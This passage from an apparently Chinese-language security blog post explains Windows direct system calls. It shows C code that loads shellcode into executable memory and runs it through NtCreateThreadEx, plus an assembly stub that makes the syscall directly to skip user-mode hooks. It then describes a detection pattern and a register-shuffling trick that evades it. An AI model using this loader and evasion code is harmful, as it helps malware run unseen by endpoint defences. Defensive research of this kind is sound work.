      void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT,  
      PAGE_EXECUTE_READWRITE);  
     memcpy(exec, shellcode, sizeof shellcode);  
     HMODULE hModule = LoadLibrary(L"ntdll.dll");  
     pHandle = GetCurrentProcess();  
     NtCreateThreadEx(&tHandle, 0x1FFFFF, NULL, pHandle, exec, NULL, FALSE,  
      NULL, NULL, NULL, NULL);  
     Sleep(1000);  
     CloseHandle(tHandle);  
     CloseHandle(pHandle);  
    }  
    

通过汇编直接NtCreateThreadEx在函数种通过syscall进入ring0

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230104154244.png)

    
    
    .code  
      
    NtCreateThreadEx proc  
       mov r10,rcx  
       mov eax,0C5h  
       syscall  
       ret  
    NtCreateThreadEx endp  
      
    end  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230104154245.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230104154247.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230104154248.png)

通过procmon进行监控

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230104154253.png)

此时直接通过我们的主程序进入ring0

## syscall的检测与绕过

ntdll中syscall被执行的格式大致

    
    
    mov r10, rcx  
    mov eax, *syscall number*  
    syscall  
    ret  
    

我们可以通过检测`mov r10, rcx`类似的代码来确定程序是否直接进行系统调用。

但是很容易被bypass

    
    
    mov r11,rcx  
    mov r10,r11  
    